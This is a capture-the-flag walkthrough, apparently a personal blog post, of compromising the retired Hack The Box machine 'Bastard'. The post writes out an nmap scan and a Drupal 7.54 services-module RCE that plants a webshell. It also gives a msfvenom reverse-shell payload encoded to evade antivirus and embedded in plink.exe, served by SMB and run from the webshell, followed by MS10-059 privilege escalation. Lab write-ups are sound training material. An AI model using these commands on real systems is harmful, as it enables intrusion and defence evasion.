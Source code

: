 ```yaml
---
layout: post
title: "HTB-Bastard"
categories: HTB-Walkthrough
---
```


![bastard](/assets/img/bastard/bastard.png)

Bastard is another HTB machine from the 'retired' list, and it isn't as bad as it sounds.

Nmap first...
`nmap -sV -Pn 10.10.10.9 |tee -a bast.txt`

```

PORT      STATE SERVICE VERSION
80/tcp    open  http    Microsoft IIS httpd 7.5
135/tcp   open  msrpc   Microsoft Windows RPC
49154/tcp open  msrpc   Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

```

Immediate plan of action: Check searchsploit for IIS 7.5, and checkout the website via the browser...

`searchsploit iis 7.5`

```

---------------------------------------------------------- ----------------------------------------
 Exploit Title                                            |  Path
                                                          | (/usr/share/exploitdb/)
---------------------------------------------------------- ----------------------------------------
Microsoft IIS 6.0/7.5 (+ PHP) - Multiple Vulnerabilities  | exploits/windows/remote/19033.txt

```

This was the only exploit (besides the dos one), so I opened up the browser to see what the web-server was doing...

![bastard-frontpage](/assets/img/bastard/bastard-frontpage.png)

In the source of the frontpage I spot that the site is using Drupal version 7

```

<meta name="Generator" content="Drupal 7 (http://drupal.org)" />

```

Checking this with searchsploit yeilded more results...

`searchsploit drupal 7`

![bastard-drupal-searchsploit](/assets/img/bastard/bastard-drupal-searchsploit.png)


Not sure at this stage exactly what version Drupal 7 we have, I decide to enumerate the server's directories with gobuster.

I often run gobuster with the `-t 50` flag (threads=50), but that threw up lots of errors, so I went with the default 10, then eventually to 5, still a few errors and it was awfully slow:

`gobuster dir -u http://10.10.10.9/ -w /root/wordlists/SecLists/Discovery/Web-Content/common.txt -t 5`

While gobuster was doing its thing, I had a manual browse; `robots.txt` is always the first to try as it can provide a good jumping point for further browsing, but so often reveals nothing...

Not in this case...robots.txt is full of information...I scan the list for interesting destinations.

In the `#files` section there is `/CHANGELOG.txt`, which should be able to give us an accurate version number.


It  informs us that the exact version of drupal is
`Drupal 7.54, 2017-02-01`

Armed with this I look at the searchsploit results again, and see that the options are reduced.

I copied the `Drupal services module RCE` and the `Drupalgeddon3 RCE PoC` (not metasploit version) to my working folder and had a read.

`searchsploit -m 41564`
`searchsploit -m 44542`




<hr width="250" size="6">


I decided to have a go at the drupal services module RCE exploit; it requires modifying, I need to find the rest endpoint.

My gobuster results include ` /rest`
Browsing to the page gets the message:

`Services Endpoint "rest_endpoint" has been setup successfully.`

So I'm able to modify the exploit accordingly

![drupal-exploit](/assets/img/bastard/bastard-drupal-exploit.png)

I changed the php payload to a webshell, that would be executable from the created page sh1n0bi.php.




<h4>msfvenom</h4>
I use msfvenom to craft a payload, I chose a 'known' port thats usually deemed 'safe', but is not in use, I also encrypt it with `shikata_ga_nai` and embed it into a 'safe' binary called `plink.exe`;
hopefully any defences looking for a suspicious signature will not be alerted.

```

msfvenom -p windows/shell_reverse_tcp lhost=10.10.14.16 lport=443 -f exe -e x86/shikata_ga_nai -x /usr/share/windows-binaries/plink.exe -o evil.exe

```

Rather than upload the evil.exe I can serve it to the target with Impacket's smbserver.py



First, run the exploit which creates the webshell.

`php drupal7-services-module-RCE.php`

Second, we have to run smbserver.py and share the folder containing evil.exe.

`python smbserver.py -comment 'My share' Sh1n0bi /tmp/sh1n/`

Third, set an nc listener...
`nc -nlvp 443`

Fourth, execute the evil payload via the created webshell.
`10.10.10.9/sh1n0bi.php?cmd=\\10.10.14.16\Sh1n0bi\evil.exe`

we get a shell...


![smbshare](/assets/img/bastard/bastard-smbshare.png)

![gotshell](/assets/img/bastard/bastard-gotshell.png)

<hr width="250" size="6">


<h3>Privilege Escalation</h3>



I check with `windows-exploit-suggester.py` 

![suggester](/assets/img/bastard/bastard-suggester.png)


I select MS10-059.exe, copy it to my /tmp/sh1n folder as chim.exe


I execute it from the target making sure I start a netcat listener first.

![chim](/assets/img/bastard/bastard-chim.png)

![rootshell](/assets/img/bastard/bastard-rootshell.png)



```

type dimitris\desktop\user.txt
baxxxxxxxxxxxxxxxxxxxxxxxxxxxxa2

```


```

c:\Users\Administrator\Desktop>type root.txt.txt
type root.txt.txt
4bxxxxxxxxxxxxxxxxxxxxxxxxxxxx7c

```

:)
